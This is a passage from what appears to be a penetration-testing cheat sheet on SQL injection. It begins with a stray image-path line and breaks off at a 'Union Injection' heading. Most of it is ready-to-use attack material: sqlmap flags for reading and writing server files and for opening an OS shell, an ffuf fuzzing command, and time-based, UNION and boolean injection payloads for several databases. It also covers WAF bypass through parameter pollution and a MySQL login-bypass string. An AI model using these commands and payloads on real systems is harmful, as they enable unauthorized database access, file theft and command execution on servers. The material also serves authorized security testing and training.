 ```bash
--csrf-token="<param>"			# Against Cross-Site Request Forgery 
--randomize=<param>				# Param to randomize
--eval=<Py code with param>		# Dinamically computes value of param

#-----------------------------EXPLOIT----------------------------------

# OS File read / write
--is-dba						# Check for r/w privilidges
--file-read "<path>"			# OS file read (saved in a file)

--file-write "<your_local_file>" --file-dest "<remote_path>"

# OS Command execution
--os-shell
```

**Prefix and Suffices:**

```bash
ffuf -u [URL] param=[WorkingParam][Payload] -w /usr/share/wordlists/sql_prefix.txt:FUZZ1 -w /usr/share/wordlists/sql_suff.txt:FUZZ2
```

- PAYLOAD

  - UNION: `ORDER BY FUZZN` 

    wordlist: `/usr/share/wordlists/numbers1-20.txt:FUZZN`

  - `OR 1=1` (check URL encoding, e.g. substitute ` ` with `+`)

  - Sleep query: 
    - MSSQL: `OR WAITFOR DELAY '0:0:10'`
      - PSQL: `OR SELECT pg_sleep(10)`
      - MYSQL: `OR SELECT sleep(10)`
      - ORACLE: `OR dbms_pipe.receive_message(('a'),10)`

##### WAF Bypass

- See SQLmap WAS Bypass section

- Identify TAMPER:

  - ```bash
    python3 ~/TOOLS/atlas/atlas.py
    ```

- HPP (HTTP parameter pollution): split the payload for GET request

  e.g. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`

##### MYSQL:

- **Login Bypass**

  `admin' or 1=1-- -` with `'` `"` `` ` ``

- **Union Injection**
